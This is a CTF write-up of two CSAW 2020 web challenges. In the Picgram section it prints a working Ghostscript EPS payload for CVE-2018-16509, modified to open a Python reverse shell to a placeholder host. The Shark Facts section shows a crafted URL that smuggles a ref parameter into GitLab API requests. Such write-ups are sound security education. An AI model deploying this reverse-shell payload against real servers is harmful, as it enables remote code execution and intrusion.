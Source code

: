 ```yaml
---
published: true
title: "CSAW CTF Finals 2020 Writeups"
date: 2020-11-09T00:00:00.000Z
categories: ["article"]
tags: ["csaw", "ctf"]
---
```


* Al Capwn participated in the online CSAW CTF Finals 2020 from the India region. We stood 6th in the region scoring 2101 points. We did miss going to IIT Kanpur for the offline event, but, nonetheless we had tons of fun!

# Web - Picgram - 100

> Check out this new photo upload service! Hopefully you won't be able to do anything spooky with it. 
> 
> http://web.chal.csaw.io:5000

The challenge downloads contained the server's Dockerfile and Flask server script.

The server accepted an image in a POST request and echoed a resized version of the same image.

The Dockerfile builds upon the base image `vulhub/ghostscript:9.23-python` which is an intentionally vulnerable container image having an older version of the Pillow library ([CVE-2018-16509](https://nvd.nist.gov/vuln/detail/CVE-2018-16509)).

Quick google leads us to the vulhub GitHub repository containing information about the CVE and a convenient exploit payload i.e a JPG image with Ghostcript containing RCE. I modified the RCE to open up a reverse shell to my server and found the flag inside the sqlite database for the app server.

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",5300));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

# Web - Shark Facts - 250 

> Sharks are all the rage right now, so people are craving shark facts. Unfortunately the shark fact maintainer went AWOL and is not accepting pull requests anymore :(
> 
> http://sharks.alternativefacts.systems/

We are given the challenge URL and the Flask server code. The application can be logged into using GitLab OAuth and creates a private repository containing shark facts for us under their own account with the name `shark-facts-for-<username>`.

After logging in, the server accepts the GitLab URL of a file to be read from the repository using the GitLab API.
{{< figure caption="Shark Facts Homepage" src="/img/shark-facts-home.png" alt="Shark Facts Homepage" position="center" style="border" >}}

The server code shows that if the file read contains the string `blahaj is life`, the flag is returned along with the file. Thus, Our goal is to fetch a file from GitLab with the contents `blahaj is life`. 

In this challenge we can control the input URL for the file to be read and our GitLab username. The input url by default contains the path of the README.md in the repository containing the Sharky facts. 
{{< figure caption="Server Code" src="/img/shark-facts-server.png" alt="Shark Facts Server" position="center" style="border" >}}

The server code accepted the URL and verified it to be a part of the repository created by the server, thus you cannot pass your own public repositories and the file has to be present in the SharkFacts repository. The URL is checked to be of the form `https://gitlab.com/sharkfacts/shark-facts-for-<username>/-/blob/main/<filename>` and everything beyond /blob/main is passed into the request URL.

Request URL is generated as: `https://gitlab.com/api/v4/projects/<project_name>/repository/files/<filename>/raw?ref=main`

The GitLab Files API accepts the repository ref from which to fetch the file from. We can form the input URL in such a way to control the ref to be used.
```
filename: README.md/raw?ref=<commit-id>&
final generated URL: https://gitlab.com/api/v4/projects/shark-facts-for-<username>/repository/files/README.md/raw?ref=<commit-id>&/raw?ref=main
```
This final URL allows us to fetch from any ref in the Git repository tree. We do not have write permissions in the GitLab repository but we can create a fork and open a merge request. This creates a branch with our file containing `blahaj is life` whose commit id we can copy. Submitting the filename with the commit id gives us the flag.

{{< figure caption="Shark Facts Flag" src="/img/shark-facts-flag.png" alt="Shark Facts Flag" position="center" style="border" >}}
```
https://gitlab.com/sharkfacts/shark-facts-for-arush15june/-/blob/main/README.md/raw?ref=03f8358719a72efc7c8ed702bc3ddfacfd843231&
```

Flag: `flag{Shark Fact #81: 97 Percent of all sharks are completely harmless to humans}`